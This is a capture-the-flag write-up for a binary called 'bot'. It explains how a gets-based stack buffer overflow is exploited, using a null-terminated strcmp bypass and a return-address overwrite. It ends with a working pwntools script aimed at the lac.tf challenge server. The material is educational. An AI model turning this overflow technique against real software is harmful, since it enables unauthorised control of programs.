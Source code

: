 We have the following C file

![image](https://user-images.githubusercontent.com/96965806/218291958-facba6aa-396c-429d-9c88-bed271a42c02.png)

The executable contains the vulnerable `gets` function, which means that there is a buffer overflow vulnerability that we can exploit.
We can overwrite the return address of `main` to jump to any point in the program that is interesting to us.

In particular we want to jump inside the following if statement
![image](https://user-images.githubusercontent.com/96965806/218292038-e788533a-57eb-4533-95a0-d2ced155ce6b.png)

However, if we don't satisfy the first if statement, the programs calls `exit(1)`, which means that we will never reach the `ret` statement in the binary.
Thankfully, the `strcmp` function only reads until it finds a null character `\x00` . This means that we can structure a payload that looks like this:
```
gimme = b'give me the flag\x00'
payload = gimme + <rest of the payload>
```

This would satisfy the if statement while allowing us to take advantage of the buffer overflow vulnerability.
Using ghidra we can find the offset between the input and the return address
![image](https://user-images.githubusercontent.com/96965806/218292182-0c670421-af12-4bc2-abc0-1c54c7a66711.png)

Then we can look at the assembly to determine where exactly we want to jump to
![image](https://user-images.githubusercontent.com/96965806/218292267-03ad2c76-105d-4c93-8375-cb356be2cfae.png)

We want to jump right after the if statement, so the best address is `0x000000000040128e`

This is what the final exploit looks like

```
from pwn import *

elf = context.binary = ELF('./bot')

#io = process('./bot')
#io = gdb.debug('./bot','continue')
io = remote('lac.tf', '31180')

gimme = b"give me the flag\x00"
payload = gimme + ((0x48 - len(gimme))* b'A') + p64(0x000000000040128e)

io.sendlineafter(b'help?', payload)
io.interactive()
```


![image](https://user-images.githubusercontent.com/96965806/218292359-58e0670b-6da0-41fe-9c63-9bb30b1fee88.png)
